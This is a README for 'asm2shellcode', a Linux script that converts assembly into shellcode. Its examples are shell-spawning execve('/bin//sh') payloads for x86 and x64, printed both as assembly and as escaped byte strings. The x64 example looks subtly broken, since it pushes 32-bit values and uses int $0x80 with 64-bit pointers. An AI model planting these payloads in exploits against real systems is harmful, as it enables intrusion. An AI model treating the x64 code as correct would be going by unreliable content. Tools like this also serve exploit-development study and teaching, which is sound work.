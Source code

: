 # asm2shellcode
Convert assembly to shellcode (only linux)

For the time being only for Linux, I hope to get the support of the open source community to make `asm2shellcode` more powerful

## usage:

```bash
asm2shellcode shellcode.S
```

## example

### shellcode for x86

```assembly
.code32
.text
_start:

    xor %ecx, %ecx
    mul %ecx
    pushl %ecx
    push $0x68732f2f
    push $0x6e69622f
    movl %esp, %ebx
    movb $0xb, %al
    int $0x80
```

The x86 assembly is compiled on a 64-bit host, you need to add `.code32` to the header

### result

```bash
$ ./asm2shellcode.sh shellcode_x86.S 
[-] Assembly to Shellcode converter 


[+] Assembling with as ... 
[+] Linking ...

[+] Generating shellcode ...

\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80

[+] Clear ...
[+] Done.

```



### shellcode for x64

```assembly
.text
_start:

    xor %rcx, %rcx
    mul %rcx
    push %rcx
    push $0x68732f2f
    push $0x6e69622f
    mov %rsp, %rbx
    movb $0xb, %al
    int $0x80
```

### result

```bash
[-] Assembly to Shellcode converter 


[+] Assembling with as ... 
[+] Linking ...

[+] Generating shellcode ...

\x48\x31\xc9\x48\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x48\x89\xe3\xb0\x0b\xcd\x80

[+] Clear ...
[+] Done.

```



